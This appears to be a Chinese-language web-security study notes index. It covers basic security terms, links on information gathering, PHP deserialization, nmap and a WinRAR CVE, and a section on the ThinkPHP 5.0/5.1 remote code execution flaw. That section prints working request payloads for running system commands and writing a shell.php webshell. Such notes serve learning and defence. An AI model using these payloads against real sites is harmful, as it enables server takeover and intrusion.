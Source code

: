 # web安全

## 安全的常用术语

- vul：vulnerable：漏洞
- payload：ShellCode中的主要功能代码
- POC：Proof ofConcept：漏洞证明
- EXP：Exploit：漏洞利用
- CVE漏洞编号：Common Vulnerabilities & Exposures 公开的漏洞
- XSS Cheat Sheet: xss备忘单

## [信息收集](./1信息收集/信息收集.html)

## 常见漏洞

- [PHP反序列化](./2漏洞/PHP反序列化漏洞.html)

## 工具

- [nmap](./3工具/nmap.html)

## ThinkPHP5.0和5.1版本远程代码执行分析

```poc
5.0版本POC（不唯一）:
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
命令执行：?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=[系统命令]
文件写入：?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][1]=<?php phpinfo();?>

5.1版本POC（不唯一）
?s=index/\think\Request/input&filter=phpinfo&data=1
命令执行：?s=index/\think\Request/input&filter=system&data=[系统命令]
文件写入：?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
```

- [WinRAR目录穿越漏洞（CVE-2018-20250）](https://github.com/WyAtu/CVE-2018-20250)